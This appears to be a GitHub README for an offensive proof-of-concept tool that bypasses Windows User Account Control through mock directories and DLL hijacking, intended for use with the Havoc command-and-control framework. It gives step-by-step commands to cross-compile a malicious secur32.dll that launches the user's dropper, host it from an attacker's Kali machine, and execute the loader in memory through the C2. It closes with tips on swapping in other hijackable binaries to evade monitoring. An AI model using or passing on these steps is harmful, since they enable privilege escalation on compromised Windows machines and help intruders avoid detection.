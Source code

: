 Windows UAC Bypass utilizing mock directories and DLL Hijacking. This is a tool that I created to use with the "dotnet inline-execution" command on Havoc C2, but it can be used with any C2 that has in-memory execution. This was just a quick and dirty POC.

**Usage:**

Open the highborn.c file in a text editor on your Kali box.

Replace the file path with the file path of the executable that you want to open (ie your dropper).

Compile HighBorn.c into a dll.

**linux command: "x86_64-w64-mingw32-gcc -shared -o secur32.dll HighBorn.c -lcomctl32 -Wl,--subsystem,windows"**

Host the dll on your Kali box.

command: python3 -m http.server PORT

Compile on Kali

**apt install mono-complete -y
mcs -out:HighBorn.exe Highborn.cs**

Execute on C2

**command: dotnet inline-execute HighBorn.exe**

Replace the ComputerDefaults.exe and secur32.dll with other EXEs and DLLs as you find DLLs that can be hijacked. ComputerDefaults is a popular one so it is probably monitored pretty closely.
